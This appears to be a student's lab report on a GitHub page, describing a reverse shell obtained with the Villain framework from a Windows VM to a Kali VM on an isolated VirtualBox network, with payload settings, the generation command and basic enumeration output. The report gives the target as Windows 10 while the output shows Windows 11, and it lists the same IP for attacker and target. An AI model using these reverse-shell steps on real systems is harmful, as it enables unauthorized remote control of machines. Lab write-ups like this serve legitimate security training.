

# 🐚 Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `65001`

## 🔁 Payload Delivery Method
The payload was generated in Villain using the command:
generate os=windows lhost=eth1

It was then copied and executed in PowerShell on the Windows 10 target VM (running on the same internal VirtualBox network as the Kali attacker VM).

## 🖥️ Captured Info
- **Hostname:** `ABHISHEKPC`
- **IP Address:** `192.168.56.101`
- **User:** `abhis`

## 📸 Screenshots
1. Villain access Screenshot

2. Payload generation in linux

3. Payload testing in windows

4. Executing Commands

## 🔎 Enumeration Performed
whoami
ipconfig
systeminfo

# Checking current user
whoami
# Output: abhis(ABHISHEK ANIL GEORGE)

# Checking network configuration
ipconfig
# Output: IPv4 Address. . . . . . . . . . . : 192.168.56.101

# Gathering system information
systeminfo
# Output: Hostname: ABHISHEKPC
# OS Name: Microsoft Windows 11 Home Single Language 
# OS Version: 10.0.26100 N/A Build 26100 
